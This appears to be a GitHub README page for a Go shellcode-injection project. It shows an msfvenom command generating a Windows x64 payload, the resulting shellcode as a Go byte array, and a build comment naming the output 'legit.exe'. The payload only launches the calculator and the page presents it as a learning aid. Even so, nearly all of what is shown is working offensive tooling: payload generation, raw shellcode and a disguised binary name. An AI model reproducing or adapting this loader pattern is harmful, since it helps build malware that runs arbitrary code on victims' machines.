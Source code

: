 ### 1 - Introduction 

I won't remind you how the functions work because they basically do the same thing as if the program had been written in C. On the other hand I will briefly remind you how these techniques work.

### Method 1 : CreateThread

this shellcode will simply run the calculator for learning purposes. We generate it using *msfvenom**.
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw
```
```go
var buf = []byte{0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00}
```

// go build -buildmode=c-shared -o legit.exe runnner.go

![image](https://user-images.githubusercontent.com/75935486/154820426-5515ab80-7e17-4ec1-916f-1a55a84a98a6.png)
